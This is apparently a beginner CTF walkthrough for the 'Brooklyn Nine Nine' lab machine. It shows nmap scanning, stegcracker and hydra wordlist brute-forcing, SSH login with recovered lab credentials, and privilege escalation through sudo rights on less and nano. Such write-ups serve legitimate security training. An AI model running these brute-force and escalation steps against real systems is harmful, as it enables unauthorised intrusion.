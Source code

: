 # Brooklyn Nine Nine Walkthrough

This is Brooklyn Nine Nine themed CTF, basically for begineers. Let's jump into it and check out this machine.
<br><br>
Scanning the machine using NMAP, yields out 3 open ports and getting the detailed version using `nmap -sC -sV -p21,22,80 -vv -oN nmap-detailed IP` 

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.1.58
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
There are lots of juicy information about it, an Apache web-server(80), Anonymous FTP and SSH.
<br><br>
Let's go through each ports one by one.

#### PORT 80 - WEBSERVER
Greeted with a B99 banner! Noice! <br>
Looking at the source code, we find out the image name and download the image using `wget http://IP/brooklyn99.jpg`. There are abundance of hints, like `Have you ever heard of steganography?` :laughing:


So we shall, use `stegcracker` to get the hidden data from the image,
```
$ stegcracker brooklyn99.jpg ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/home/cardinal/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt'..
Successfully cracked file with password: admin
Tried 1588 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```

And we have set of credentials, that looks like could be used by SSH,
```
$ cat brooklyn99.jpg.out 
Holts Password:
fluffydog12@ninenine

Enjoy!!
````

#### PORT 21 - Anonymous FTP

Using the Anonymous FTP credentails, `anonymous` as username and password! We get a `note_to_jake.txt` from FTP server. And it contains a sweet text from Amy,
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

#### PORT 22 - SSH

Let's try and get into SSH using the credentials `holt` as username and `fluffydog12@ninenine` as password!

We got two files in the default directory and one of them is `user.txt` and `nano.save` but it can be accessed by root, hence we have the user's flag! Let's enumerate more, so getting the `/etc/passwd` gives us that we have two more potential account - `jake` & `amy`. 

Let's try and get into jake's account using bruteforce, for bruteforce we could use `hydra`.

```
$ hydra -l jake -P ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ssh://IP
[22][ssh] host: IP   login: jake   password: 987654321
```
<br><br>
And we have jake's password!!!! Let's meet jake then!!!!
<br>
After getting into jake's machine and we see it's sudo privileges by `sudo -l` and we can see that jake has sudo privileges for `less`, and using it we can access the `root.txt` from root user.

```
$ less root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: xxxxxxxxxxxxxxxxxxxxxxxxxx

Enjoy!!
```

And we have pwned the box!!!
<hr>

_Other Method - When we do, `sudo -l` in holt's account, we find out that we have sudo privileges for `nano`. And we could escalate using `nano` as well._